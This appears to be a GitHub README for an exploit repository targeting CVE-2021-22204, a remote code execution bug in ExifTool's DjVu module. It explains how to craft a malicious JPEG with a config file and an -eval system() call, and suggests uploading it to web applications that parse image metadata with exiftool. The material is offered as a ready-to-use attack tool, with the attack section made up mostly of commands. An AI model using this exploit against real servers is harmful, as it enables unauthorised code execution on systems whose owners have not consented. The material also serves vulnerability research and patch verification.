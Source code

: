 # JPEG_RCE
Exiftool bug which leads to RCE </br></br>
***CVE-2021-22204 - RCE***

</br>
*REFFERENCE*
 
</br>Related hackerone report : https://hackerone.com/reports/1154542 </br>

*VULNERABILITY*

ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images.</br>

*REQUIREMENTS*

if you are using other image ,it should be a valid jpeg/jpg file </br>
You can check that with exiftool 
</br>
The meta-data should be : 
<br>
`MIME Type                       : image/jpeg"`
</br>
</br>
*EXPLOIT VECTOR*

If the web application has a feature of uploading image and if the application is parsing the metadata of the uploaded image file using exiftool, you can always give a try with this exploit </br>
</br>
*NOTE*

The exiftool version should be between  7.44 to 12.23. </br>
</br>
*COMMAND (exploit)* 

`git clone https://github.com/OneSecCyber/JPEG_RCE.git`
</br> 
</br> `cd JPEG_RCE`
</br>
<br> `exiftool -config eval.config runme.jpg -eval='system("ls -la")'`
</br>
<br>
It will create malicious jpg file </br>
Upload the file or run the file in you local system to see the magic.. 
</br>
<br>
`exiftool runme.jpg `
</br>
*POC*
<br>
[![Watch the video]()
</br>


